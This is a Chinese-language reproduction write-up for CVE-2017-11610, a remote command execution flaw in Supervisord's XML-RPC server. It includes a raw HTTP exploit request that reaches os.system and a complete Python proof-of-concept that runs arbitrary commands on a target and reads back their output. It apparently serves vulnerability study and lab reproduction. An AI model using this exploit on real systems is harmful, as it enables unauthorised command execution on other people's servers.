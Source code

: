 # （CVE-2017-11610）Supervisord 远程命令执行漏洞

## 一、漏洞简介

Supervisor是一套进程控制系统，用于监视和控制类Unix系统上的进程。XML-RPC server是其中的一个XML-RPC服务器。 Supervisor中的XML-RPC服务器存在安全漏洞。远程攻击者可借助特制的XML-RPC请求利用该漏洞执行任意命令。

## 二、漏洞影响

supervisor 3.0.1之前的版本，3.1.4之前的3.1.x版本，3.2.4之前的3.2.x版本，3.3.3之前的3.3.x版本。

## 三、复现过程

直接执行任意命令：

```html
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

![image](images/img1.png)

### 关于直接回显的POC

@Ricter 在微博上提出的一个思路，甚是有效，就是将命令执行的结果写入log文件中，再调用Supervisord自带的readLog方法读取log文件，将结果读出来。

写了个简单的POC： [poc.py](https://github.com/vulhub/vulhub/blob/master/supervisor/CVE-2017-11610/poc.py "poc.py")，直接贴出来吧：

```python
#!/usr/bin/env python3
import xmlrpc.client
import sys


target = sys.argv[1]
command = sys.argv[2]
with xmlrpc.client.ServerProxy(target) as proxy:
    old = getattr(proxy, 'supervisor.readLog')(0,0)

    logfile = getattr(proxy, 'supervisor.supervisord.options.logfile.strip')()
    getattr(proxy, 'supervisor.supervisord.options.warnings.linecache.os.system')('{} | tee -a {}'.format(command, logfile))
    result = getattr(proxy, 'supervisor.readLog')(0,0)

    print(result[len(old):])
```

使用Python3执行并获取结果：    ./poc.py "http://your-ip:9001/RPC2" "command"：

![image](images/img2.png)

## 参考链接

https://vulhub.org/#/environments/supervisor/CVE-2017-11610/

https://www.leavesongs.com/PENETRATION/supervisord-RCE-CVE-2017-11610.html

https://blogs.securiteam.com/index.php/archives/3348

https://github.com/Supervisor/supervisor/commit/90c5df80777bfec03d041740465027f83d22e27b
